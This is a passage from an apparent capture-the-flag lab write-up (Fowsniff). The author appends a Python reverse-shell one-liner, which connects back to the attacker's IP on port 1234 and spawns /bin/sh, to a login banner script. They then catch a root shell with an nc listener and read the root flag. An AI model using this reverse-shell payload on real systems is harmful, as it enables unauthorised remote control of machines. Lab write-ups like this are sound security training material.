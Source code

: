 ```
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.148.168",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Now that I have added the reverse shell, I need to login again. <br>
On my listener, I got root!! <br>
```
fowsniffCTF nc -lvnp 1234         
listening on [any] 1234 ...
connect to [10.8.148.168] from (UNKNOWN) [10.10.43.65] 41364
/bin/sh: 0: can't access tty; job control turned off
# ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
# id
uid=0(root) gid=0(root) groups=0(root)
```
In the root directory, there is a file named 'flag.txt' <br>
```
# cd root
# ls
Maildir
flag.txt
# cat flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
```